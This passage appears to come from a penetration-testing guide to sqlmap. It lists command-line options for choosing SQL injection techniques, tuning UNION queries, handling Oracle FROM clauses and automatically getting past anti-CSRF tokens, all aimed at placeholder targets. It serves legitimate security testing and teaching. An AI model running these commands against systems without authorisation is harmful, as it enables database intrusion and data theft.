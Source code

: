 **Text-only Comparison:**
```bash
# Remove HTML tags, compare only visible text
sqlmap -u "URL" --text-only                 # Strip <script>, <style>, etc.
```

#### Technique Selection

**Available Techniques:**
- **B**: Boolean-based blind
- **E**: Error-based  
- **U**: UNION query-based
- **S**: Stacked queries
- **T**: Time-based blind

**Custom Technique Selection:**
```bash
# Skip time-based (avoid timeouts)
sqlmap -u "URL" --technique=BEU             # Boolean + Error + UNION only

# Only UNION attacks
sqlmap -u "URL" --technique=U               # UNION queries only

# Skip boolean blind (faster)
sqlmap -u "URL" --technique=EUS             # Error + UNION + Stacked
```

#### UNION SQLi Tuning

**Column Number Specification:**
```bash
# When you know exact column count
sqlmap -u "URL" --union-cols=17             # Force 17 columns

# Alternative dummy values (instead of NULL)
sqlmap -u "URL" --union-char='a'            # Use 'a' instead of NULL
```

**Oracle FROM Clause:**
```bash
# Oracle requires FROM clause in UNION
sqlmap -u "URL" --union-from=users          # Add FROM users
sqlmap -u "URL" --union-from=dual           # Add FROM dual (Oracle)
```

#### Bypassing Web Application Protections

##### Anti-CSRF Token Bypass

**Problem:** Modern web applications use anti-CSRF tokens that change with each request, breaking automation.

**Solution:** SQLMap can automatically handle CSRF tokens.

```bash
# Automatic CSRF token handling
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"

# SQLMap will:
1. Parse target response content
2. Search for fresh token values  
3. Use new tokens in subsequent requests
4. Automatically detect common token names (csrf, xsrf, token)
```
